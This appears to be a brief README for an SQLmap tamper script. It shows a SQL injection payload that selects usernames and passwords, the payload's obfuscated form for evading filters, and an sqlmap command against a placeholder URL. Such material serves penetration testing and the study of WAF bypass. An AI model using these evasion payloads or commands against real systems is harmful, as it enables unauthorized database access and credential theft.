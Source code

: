 ## SQLmap-Tamper-Scipts

### Example Payload Transformations
Input Payload: SELECT username, password FROM users WHERE id=1 AND admin=1;
Output Payload (Transformed): sElEcT/**/username,/**/password/**/FrOm/**/users/**/wHeRe/**/id%3D1/**/&&/**/admin%3D1%3B
### How to Use
Save this script as advanced_obfuscation.py in the sqlmap/tamper directory.
### Run SQLMap with the tamper script:
sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper=advanced_obfuscation


